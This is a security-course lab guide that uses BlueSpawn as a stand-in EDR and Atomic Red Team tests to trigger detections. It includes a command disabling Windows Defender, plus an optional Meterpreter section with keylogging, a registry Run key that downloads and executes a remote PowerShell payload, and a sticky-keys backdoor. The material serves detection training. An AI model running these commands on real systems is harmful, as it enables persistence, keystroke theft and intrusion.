 

# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.

![](attachments/OpeningPowershell.png)

Next, run the following command:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/disableDefender.png)

This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a command prompt by clicking on the icon in the taskbar:

![](attachments/openingcommandprompt.png)

 
Next, let’s change directories to tools and start Bluespawn:

<pre>cd \IntroLabs</pre>

<pre>BLUESPAWN-client-x64.exe --monitor --level Cursory</pre>
 
![](attachments/cdandstartbluespawn.png)

You should see something like this:

![](attachments/bluspawnlaunched.png)

If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar:

![](attachments/OpeningPowershell.png)

Now we need to install and update Atomic Red Team. Run the following:

<pre>cd \</pre>

<pre>IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force</pre>

>[!NOTE]
>
> This can take a bit. Be patient!

Once you see the following, you are set to move forward:

![](attachments/installationconfirmation.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

<pre>cd C:\AtomicRedTeam\invoke-atomicredteam\</pre>

Then, install the proper `yaml` modules by running the following:

<pre>Install-Module -Name powershell-yaml</pre>

>[!NOTE]
>
>When prompted, press Y to install the modules.

<pre>Import-Module .\Invoke-AtomicRedTeam.psm1</pre>


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

<pre>Invoke-AtomicTest T1547.004</pre>

<pre>Invoke-AtomicTest T1543.003</pre>

<pre>Invoke-AtomicTest T1547.001</pre>

<pre>Invoke-AtomicTest T1546.008</pre>


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:

![](attachments/invokeatomicv1.png)

>[!NOTE]
>
>There might be some errors when this runs. This is 
normal.

>[!NOTICE]
>
>We had to cross reference the old numbering with the new.
>
>You can find that mapping here:
>
>https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json
>
>![](attachments/crossreference.png)


You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:

![](attachments/bluespawndetections.png)

Now, let’s go back to the PowerShell window and clean up:

<pre>Invoke-AtomicTest All -Cleanup</pre>

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# Optional Section: Meterpreter

If you have more time, feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands:

<pre>keyscan_start</pre>

<pre>keyscan_dump</pre>

![](attachments/Clipboard_2020-06-15-13-52-00.png)

<pre>shell</pre>

<pre>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f</pre>

<pre>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"</pre>

![](attachments/Clipboard_2020-06-15-14-00-53.png)


<pre>getsystem</pre>

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/RITA_ADHD/RITA_ADHD.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---




